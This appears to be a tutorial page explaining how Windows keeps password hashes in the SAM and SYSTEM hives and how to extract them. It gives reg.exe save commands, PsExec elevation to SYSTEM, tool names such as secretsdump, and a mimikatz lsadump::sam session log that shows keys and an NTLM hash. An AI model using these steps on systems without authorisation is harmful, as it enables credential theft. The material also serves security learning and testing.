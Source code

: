 # The SAM
Linux stores users and information about them in **/etc/passwd** which is just a file that you can read and parse easily because it is just text. Windows stores users information and hashes in the **SAM**, or **Security Account Manager**. The SAM is a special file residing at *C:\Windows\system32\config\SAM*. This file is encrypted and not accesible, Windows will fail in an attempt to read it even with the necessary permissions. The **SAM** is also encrypted using the *SYSKEY* that is also encrypted with the *BOOTKEY*, present in the **SYSTEM** file -*C:\Windows\system32\config\SYSTEM*-, blocked too so not accesible -except for NT Authority\System, it can access SAM and SYSTEM from the registry mount points, for example using PsExec.exe -i -s cmd it is possible te get a shell as NT Authority\System-. They are mounted at *HKLM\SAM* and *HKLM\SYSTEM*, using **reg.exe save HKLM\SAM FILE_NAME_TO_SAVE** with administrator privileges it is possible to save the **SAM**. The same can be used to save **SYSTEM**. Now it is possible to dump the hashes using **secretsdump** of [impacket](https://github.com/SecureAuthCorp/impacket/blob/master/examples/secretsdump.py){:target="\_blank"}, for example. Another aproach is to use tools like *pwdump*, *samdump2*, boot to Linux and mount the Windows partition to access those file considering the parition is not Bitlocker-encrypted. Mimikatz is also capable too, this is and example using the *kiwi* tool. Some techniches are based on file system filter drivers, like *pwdump7*, other like *mimikatz* becomes **NT Authority\System** so it can access **SAM** and **SYSTEM** files.
```code
Using 'mimikatz.log' for logfile : OK

mimikatz # coffee

    ( (
     ) )
  .______.
  |      |]
  \      /
   `----'

mimikatz # token::elevate
Token Id  : 0
User name : 
SID name  : NT AUTHORITY\SYSTEM

624	{0;000003e7} 1 D 42128     	NT AUTHORITY\SYSTEM	S-1-5-18	(04g,21p)	Primary
 -> Impersonated !
 * Process Token : {0;0003daa7} 1 F 1817021   	DESKTOP-1L6MJDO\Peter	S-1-5-21-3623154155-2601920244-3614457045-1001	(14g,24p)	Primary
 * Thread Token  : {0;000003e7} 1 D 1958159   	NT AUTHORITY\SYSTEM	S-1-5-18	(04g,21p)	Impersonation (Delegation)

mimikatz # lsadump::sam
Domain : DESKTOP-1L6MJDO
SysKey : 778f94dbe8bd304ee93fc3d1f75ee249
Local SID : S-1-5-21-3623154155-2601920244-3614457045

SAMKey : f2380ff58b02bae7de8f502d9a004cd7

RID  : 000001f4 (500)
User : Administrador

RID  : 000001f5 (501)
User : Invitado

RID  : 000001f7 (503)
User : DefaultAccount

RID  : 000001f8 (504)
User : WDAGUtilityAccount
  Hash NTLM: d6c3cd7ba08dceaabfc1e8bf0277772e

```
